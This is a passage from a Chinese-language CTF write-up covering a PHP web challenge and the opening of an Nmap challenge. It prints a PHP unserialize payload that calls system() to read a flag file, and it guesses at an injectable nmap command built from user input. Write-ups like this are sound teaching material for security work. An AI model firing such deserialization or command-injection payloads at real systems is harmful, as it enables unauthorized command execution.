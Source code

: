 <figure><img src=".gitbook/assets/phpweb-4.png" alt=""><figcaption></figcaption></figure>

排除开系统文件可以发现 `/tmp/flagoefiu4r93` 文件，通过构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}` 就得到 flag 了。

### \[朱雀组]Nmap

先随便输入 `127.0.0.1` 可以得到回显并且发现 Param `f=6f859` 。

构造 Payload 如下

```
f=6f858
```

可以得到报错回显如下

```
Warning: simplexml_load_file(): I/O warning : failed to load external entity "xml/6f858" in /var/www/html/result.php on line 23
```

可以推断出是 xml 输出的，假设当前表达式为

```php
<?php system('nmap '. $_POST['host'] .' -oX')
```
